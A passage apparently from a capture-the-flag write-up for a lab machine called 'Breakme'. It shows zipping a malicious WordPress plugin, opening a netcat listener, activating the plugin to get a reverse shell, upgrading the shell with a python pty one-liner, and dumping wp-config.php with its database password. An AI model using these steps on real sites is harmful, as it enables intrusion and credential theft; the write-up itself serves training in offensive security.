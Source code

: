 Zip the plugin folder:
```bash
zip -r breakme.zip breakme/
```

Start a Listener

Set up a listener on your machine:
```bash
nc -lvnp 1234
```

Upload and Activate the Plugin

Upload breakme.zip via the WordPress admin panel, then activate the plugin to trigger the reverse shell.


### 4. Post-Exploitation

Escalate Privileges

Stabilize the shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Export the terminal:
```bash
export TERM=xterm
```

Access sensitive files like wp-config.php for database credentials:
```bash
cat wp-config.php
```

```bash
Result:
www-data@Breakme:/var/www/html/wordpress$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wpdatabase' );

/** Database username */
define( 'DB_USER', 'econor' );

/** Database password */
define( 'DB_PASSWORD', 'SuP3rS3cR37#DB#P@55wd' );

```